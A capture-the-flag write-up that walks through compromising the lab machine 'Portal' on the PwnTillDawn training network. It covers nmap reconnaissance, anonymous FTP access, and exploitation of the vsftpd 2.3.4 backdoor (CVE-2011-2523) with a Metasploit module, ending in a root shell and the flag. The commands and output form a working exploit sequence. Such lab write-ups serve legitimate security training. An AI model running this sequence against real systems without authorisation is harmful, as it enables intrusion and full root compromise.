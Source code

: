 ```yaml
---
layout: post
title: "Portal - 10.150.150.12"
date: 2022-04-21
image: ../../assets/img/Posts/portal.png
categories: [PwnTillDawn, PTD-EASY]
tags: [metasploit, CVE-2011-2523, vsFTPd version 2.3.4 backdoor]
---
```


We first begin by performing an nmap scan to determine what ports are open and what services are running behind them.

```bash
➜  nmap -sC -sV -p- -T4 10.150.150.12

Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-21 19:23 E. Africa Standard Time
Nmap scan report for 10.150.150.12
Host is up (0.16s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.66.67.174
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1f:bc:e3:e3:5b:eb:ff:b2:30:a7:4c:33:11:bf:67:a3 (RSA)
|   256 c8:e4:18:29:59:d0:4e:ea:dc:05:50:bc:d5:6f:e5:00 (ECDSA)
|_  256 58:d5:70:6d:0d:80:71:0a:ba:8e:1c:7a:c7:37:2f:e2 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.20 seconds

```

From our nmap scan, we found FTP to be open and allowing Anonymous login. Accessing FTP as anonymous, we dont see any files that we can download. Trying to upload a file didn't work as well.

```bash
➜  ftp 10.150.150.12
Connected to 10.150.150.12.
220 Through the portal... - into nothingness or bliss?
Name (10.150.150.12:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||30941|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 10  2020 .
drwxr-xr-x    2 0        0            4096 Nov 10  2020 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
```

vsFTPd has a known backdoor vulnerability, [CVE-2011-2523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523) which opens a shell on port 6200/tcp. [Nmap](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html) has a script that you can use to test if a machine is vulnerable.

```bash
➜  nmap --script ftp-vsftpd-backdoor -p 21 10.150.150.12
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-21 19:30 E. Africa Standard Time
Nmap scan report for 10.150.150.12
Host is up (0.16s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor:
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root) groups=0(root)
|     References:
|       https://www.securityfocus.com/bid/48539
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb

Nmap done: 1 IP address (1 host up) scanned in 13.08 seconds
```

Indeed its vulnerable! We can use a module on metasploit to explloit the vulnerability as shown below:

```bash
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.150.150.12
RHOSTS => 10.150.150.12
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.150.150.12:21 - Banner: 220 Through the portal... - into nothingness or bliss?
[*] 10.150.150.12:21 - USER: 331 Please specify the password.
[+] 10.150.150.12:21 - Backdoor service has been spawned, handling...
[+] 10.150.150.12:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.66.67.174:39693 -> 10.150.150.12:6200 ) at 2022-04-21 06:22:04 -0400


whoami
root
pwd
/root
ls -la
total 44
drwx------  6 root root 4096 Nov 12  2020 .
drwxr-xr-x 20 root root 4096 Nov 10  2020 ..
-rw-------  1 root root 1429 Apr 21 10:45 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Nov 12  2020 .cache
-rw-r--r--  1 root root   41 Nov 10  2020 FLAG1.txt
drwxr-xr-x  3 root root 4096 Nov 10  2020 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   66 Nov 10  2020 .selected_editor
drwxr-xr-x  3 root root 4096 Nov 10  2020 snap
drwx------  2 root root 4096 Nov 10  2020 .ssh
```

Easy peasy, we got a shell and the FLAG in /root.

![image](https://www.gifcen.com/wp-content/uploads/2022/01/hacker-gif.gif)

Special shout out to the team behind the PTD network:

- [https://www.wizlynxgroup.com/](https://www.wizlynxgroup.com/)
- [https://online.pwntilldawn.com/](https://online.pwntilldawn.com/)

